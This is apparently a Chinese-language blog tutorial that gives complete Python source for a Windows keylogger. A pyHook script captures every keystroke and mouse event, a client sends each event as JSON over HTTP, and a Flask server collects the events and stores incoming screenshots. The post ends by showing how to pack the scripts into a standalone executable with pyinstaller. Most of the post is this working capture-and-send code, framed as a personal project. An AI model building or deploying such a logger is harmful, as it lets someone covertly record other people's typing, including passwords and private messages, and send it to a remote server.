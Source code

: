 ```yaml
---
title: Python之windows键盘鼠标记录器
author: Pandaho
date: 2020-04-27 20:00:00 
categories: [Project] 
tags: [python]
image: /assets/img/python-keyboard-and-mouse/cover.png
---
```





##  简介

利用python将windows下键盘和鼠标的操作信息截取转换为JSON格式，通过HTTP发送至服务器

主要分为3个模块，client、server、keyboard-and-mouse。

在服务端启用server，keyboard-and-mouse截取信息后调用client，发送至http_post_json指向的服务器。

### 架构图

![图例](/assets/img/python-keyboard-and-mouse/1.png)


### Python模块

"Pyhook”是一个基于Python的“钩子”库，主要用于监听当前电脑上鼠标和键盘的事件。这个库依赖于另一个Python库PyWin32，如同名字所显示的，PyWin32只能运行在Windows平台，所以PyHook也只能运行在Windows平台。

[Flask](http://flask.pocoo.org/)是一个Python编写的Web 微框架，让我们可以使用Python语言快速实现一个网站或Web服务。



### 背景说明

- Python3.7
- Windows

##  流程

下载地址： [pyHook](https://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)



client：

```python
from http.client import HTTPConnection
import json

def http_post_json(ip,dict_data,port=5000):
    c = HTTPConnection(ip,port=port)
    
    headers = {}
    headers['Content-Type'] = 'application/json'
    post_json_data = json.dumps(dict_data).encode ('utf-8')
    c.request('POST','/server_json', body=post_json_data, headers=headers)
if __name__ == "__main__":
    json_data = {"from": "akjflw","to":"fjlakdj", "amount": 3}
    http_post_json('127.0.0.1',json_data)
```



server：

```python
from flask import Flask 
from flask import request
import base64
import json
from datetime import datetime
node = Flask(__name__)

def b64_img(b64):
    b4code = bytes(b64,'utf8')
    img = base64.b64decode(b4code)
    return img
@node.route('/server_json',methods=['POST'])

def transaction():
    if request.method == 'POST':
        json_data = request.get_json()
        if json_data['MessageType'] == 'ImageEvent':
            filename = datetime.now().strftime("%Y-%m-%d %H:%M:%S")+'.bmp'
            recv_image = open(filename,'wb')
            recv_image.write(b64_img(json_data['Imageb64']))
            recv_image.close()
        else:
            print(json_data)
        return 'got data!!!'
if __name__ == '__main__':
    node.run(host = '0.0.0.0')
```



keyboard-and-mouse：

```python
import pythoncom,pyHook
from client import http_post_json
def OnKeyboardEvent(event):
    dict_key = {}
    dict_key['MessageType'] = 'KeyboardEvent'
    dict_key['MessageName'] = event.MessageName
    dict_key['Time'] = event.Time
    dict_key['Key:'] = event.Key
    http_post_json('127.0.0.1',dict_key)
    return True

def OnMouseEvent(event):
    dict_key = {}
    dict_key['MessageType'] = 'MouseEvent'
    dict_key['MessageName'] = event.MessageName
    dict_key['Time'] = event.Time
    dict_key['Position'] = event.Position
    dict_key['Wheel'] = event.Wheel
    http_post_json('127.0.0.1',dict_key)
    return True

def key_mouse_logger():
    hm = pyHook.HookManager()
    hm.KeyDown = OnKeyboardEvent
    hm.HookKeyboard()
    hm.MouseAll = OnMouseEvent
    hm.HookMouse()
    pythoncom.PumpMessages()
    
if __name__ == '__main__':
    key_mouse_logger()
```



其中需要注意的问题：

1、pyHook对应cp号对应python版本，需要特别注意别下载错了

2、No module named ‘pythoncom’问题

```
pip install pywin32
```

3、如果想在没有python的环境下运行需要使用pyinstaller

```
pip install pyinstaller
pyinstaller --onefile *.py
```

